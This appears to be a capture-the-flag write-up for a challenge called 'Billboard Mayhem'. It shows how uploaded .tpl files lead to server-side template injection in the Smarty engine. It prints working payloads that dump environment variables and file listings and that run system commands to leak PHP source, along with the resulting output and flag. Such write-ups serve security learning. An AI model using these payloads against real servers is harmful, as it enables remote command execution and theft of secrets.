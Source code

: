 # Billboard Mayhem

## The App
This execise contains 2 Flags. The first one is just finding the form (wow, complicated), the second seems to be hidden in environment variables.

![[app.png]]

As stated, it can upload TPL files (seems to be a file format for a marketing and CRM software https://www.act.com/resources/downloads/ and https://file.org/extension/tpl)?

## Research
First, I tried to upload a file with the `.tpl` extension an a random content I can identify. It triggers a  `POST` to `/upload.php` and then redirects with `302 Found` to the `/index.php`, where the file content is diplayed. I tried to reload the page but the file content is always diplayed so it is persistend. Uploading the file a second time changes the output. Uploading a different file changes the content again.

Then I tried to upload a valid PHP file, and here it starts to become interesting:

```php
<?php

echo "<br><script>alert(window.location.href)</script>";
```

Becomes:

```html
<!--?php

echo "<br--><script>alert(window.location.href)</script>";
```

```php
<?php

echo 1+1;

```

Becomes:

```html
<!--?php

echo 1+1;
</div-->
```

After some more experiments `<div class="test">{7*7}</div>` became `<div class="test">49</div>`, which means that there exists a SSTI (Server Side Template Injection).

The following payload reveals some usefull information:
```
<div class="test">{join('<br>', array_keys(getenv()))} <br>-<br> {join('<br>', getenv())}<br>Exposed files<br>{join(';', glob('*'))}</div>
```

```
HOSTNAME  
HOME  
PATH  
CHALLENGE_USER  
DEBIAN_FRONTEND  
EXPOSED_URL  
PWD  
-  
0eb55f8a28f4  
/var/www  
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
Spikezz0xF69sh  
noninteractive  
https://64bcca024aabaf144162740a78807d83.challenge.hackazon.org  
/  
Exposed files  
advertisement.tpl;billboard.tpl;index.php;smarty-4.0.1;templates_c;upload.php;upload.tpl
```

After googleing the unknown file or folder `smarty-4.0.1` we find a PHP library with this name. A template engine. https://www.smarty.net/. 

Digging deeper, the `templates_c` folder reveals the following content:

```
templates_c/8adfbabda06f8aba0b4b1d80c38a9737372bc06b_0.file.billboard.tpl.php
templates_c/b313a41804d60e60e349bb7b8c613386fcae54d9_0.file.upload.tpl.php
templates_c/dc37bb02e243b748b086ec9c23e78188c36d4887_0.file.advertisement.tpl.php
```

The template files are accessible on the server and can be downloaded by calling their files. The source code if PHP can be leaked with the payload `<div class="test">{system('cat index.php')}</div>`. By accident, this revealed the flag.

Leaked code:

```html
<div class="test"><!--?php
require('smarty-4.0.1/libs/Smarty.class.php');
$smarty = new Smarty;
$smarty--->disableSecurity();
$smarty-&gt;assign('flag', 'Congratulations, the flag is: CTF{example_flag}');
$smarty-&gt;display('billboard.tpl');
?&gt;
?&gt;</div>
```

## Alternative solution
The template engine seems to have some sort of environment variable which might be accessible.